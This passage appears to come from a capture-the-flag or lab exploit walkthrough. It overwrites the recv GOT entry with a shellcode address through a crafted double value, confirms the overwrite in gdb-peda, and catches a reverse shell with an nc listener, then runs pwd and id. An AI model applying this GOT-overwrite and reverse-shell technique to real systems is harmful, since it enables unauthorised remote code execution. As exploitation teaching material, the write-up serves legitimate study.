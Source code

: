 Nice, we can now overwrite the GOT entry with our shellcode address (0x0000000000603150) using this double: 3.114629356634885514212623795744696989099126200464912460920046189338858451871977588458999392410662226841627927565265440233180118e-317

```lang-bash line-numbers 
gdb-peda$ x/x 0x603020
0x603020 <recv@got.plt>:    0x0000000000603150
```

We successfully owerwrite the GOT entry with the shellcode address and we get our shell back:

```lang-bash line-numbers 
root@dragonstone:~# nc -lvp 16705
nc: listening on :: 16705 ...
nc: listening on 0.0.0.0 16705 ...
nc: connect to 192.168.239.144 16705 from 192.168.239.144 (192.168.239.144) 50403 [50403]
pwd
/home/gambino
id
uid=1001(gambino) gid=1000(gambino) groups=1000(gambino)
```



